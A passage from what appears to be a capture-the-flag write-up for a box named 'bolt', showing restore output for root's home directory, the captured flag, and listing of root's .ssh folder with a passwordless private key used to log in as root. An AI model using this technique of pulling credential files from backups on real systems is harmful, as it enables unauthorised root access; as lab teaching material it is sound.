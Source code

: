     ignoring error for /root/.gnupg/private-keys-v1.d: Lchown: lchown /tmp/ioio2/rest/root/.gnupg/private-keys-v1.d: operation not permitted
    ignoring error for /root/.gnupg: Lchown: lchown /tmp/ioio2/rest/root/.gnupg: operation not permitted
    ignoring error for /root/.local/share/nano: Lchown: lchown /tmp/ioio2/rest/root/.local/share/nano: operation not permitted
    ignoring error for /root/.local/share: Lchown: lchown /tmp/ioio2/rest/root/.local/share: operation not permitted
    ignoring error for /root/.local: Lchown: lchown /tmp/ioio2/rest/root/.local: operation not permitted
    ignoring error for /root/.profile: Lchown: lchown /tmp/ioio2/rest/root/.profile: operation not permitted
    ignoring error for /root/.selected_editor: Lchown: lchown /tmp/ioio2/rest/root/.selected_editor: operation not permitted
    ignoring error for /root/.ssh/authorized_keys: Lchown: lchown /tmp/ioio2/rest/root/.ssh/authorized_keys: operation not permitted
    ignoring error for /root/.ssh/id_rsa: Lchown: lchown /tmp/ioio2/rest/root/.ssh/id_rsa: operation not permitted
    ignoring error for /root/.ssh/id_rsa.pub: Lchown: lchown /tmp/ioio2/rest/root/.ssh/id_rsa.pub: operation not permitted
    ignoring error for /root/.ssh: Lchown: lchown /tmp/ioio2/rest/root/.ssh: operation not permitted
    ignoring error for /root/.wget-hsts: Lchown: lchown /tmp/ioio2/rest/root/.wget-hsts: operation not permitted
    ignoring error for /root/config.yml: Lchown: lchown /tmp/ioio2/rest/root/config.yml: operation not permitted
    ignoring error for /root/cron.sh: Lchown: lchown /tmp/ioio2/rest/root/cron.sh: operation not permitted
    ignoring error for /root/root.txt: Lchown: lchown /tmp/ioio2/rest/root/root.txt: operation not permitted
    ignoring error for /root: Lchown: lchown /tmp/ioio2/rest/root: operation not permitted
    There were 24 errors

In the root directory backup we found the flag as planned.

    :::text
    bolt@bolt:/tmp/ioio2$ ls rest
    root
    bolt@bolt:/tmp/ioio2$ ls rest/root/root.txt
    rest/root/root.txt
    bolt@bolt:/tmp/ioio2$ cat rest/root/root.txt
    ntrkzgnkotaxyju0ntrinda4yzbkztgw

But we also found a SSH private key without password that allow us to connect as
root on the box!

    :::text
    bolt@bolt:/tmp/ioio2$ ls rest/root/.
    ./                ../               .bash_history     .bashrc           .cache/           .config/          .gnupg/           .local/           .profile          .selected_editor  .ssh/             .wget-hsts
    bolt@bolt:/tmp/ioio2$ ls rest/root/.ssh/
    authorized_keys  id_rsa           id_rsa.pub
    bolt@bolt:/tmp/ioio2$ ls rest/root/.ssh/
    authorized_keys  id_rsa  id_rsa.pub
